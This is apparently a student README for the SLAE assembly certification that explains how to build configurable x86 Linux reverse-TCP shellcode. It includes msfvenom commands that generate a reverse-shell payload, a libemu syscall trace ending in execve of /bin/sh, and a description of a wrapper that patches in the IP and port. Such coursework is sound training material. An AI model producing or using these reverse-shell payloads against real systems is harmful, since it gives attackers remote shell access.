






# Exercise 2

## Assignment #2

- Create a Shell_Reverse_TCP shellcode

    - Reverse connects to configured IP and Port

    - Execs Shell on successful connection

- IP and Port number should be easily configurable


---------------------------------------------------


## Usage

```
python wrapper.py $IP $PORT
```


If there are not input variables, the program asks for them:


Test with port 7777:



Result:



If the port causes problems, a warning message will appear:




## First approach: Libemu


After installing Libemu, we will use the sctest binary. We can get the result using the binary directly:

```
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
```

Or we can use the libemu.sh script (in scripts/ folder):

```
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

The result:


```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat and printf to print the hexadecimal value:

```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep listen

printf "%x\n" 363
```

Or the syscallhex.sh script (in scripts/ folder)


```
sh syscallhex.sh listen
```


The system calls and their values are:

- Socket:   359 (0x167)

- Dup2:     63 (0x3f)

- Connect:  362 (0x16a)

- Execve:   11 (0xb)


Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"


Knowing this and the values from the Libemu's output, it is possible to write the nasm code.


## Creating the Python wrapper

Get the shellcode changing the "\" to "\\":


Detect where the port (8888 or 0x22b8 in hexadecimal), the IP and the auxiliar value used to substract to the IP are being used:


Now we know the value in the original shellcode which must be substituted. After this, we just must take the input to the wrapper script, translate the port number to hexadecimal (in big endian format) and print the new shellcode with the port updated.


------------------------------------------------------------------

## Second approach: Ndisasm

A second approach, which can be considered easier, is to get the nasm file from the raw output from msfvenom:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8888 --platform=Linux -a x86 -f raw | ndisasm -u -
```




It can be compiled:




And it works correctly:



This is included in the **ndisasm_approach** folder, but the wrapper has been developed and tested only for the first approach.


------------------------------------------------------------------

## Some useful links
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://rosettacode.org/wiki/Sockets
- http://www6.uniovi.es/cscene/CS5/CS5-05.html
- https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
- https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm
- https://forum.nasm.us/index.php?topic=889.0


---------------------------------------------------

## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433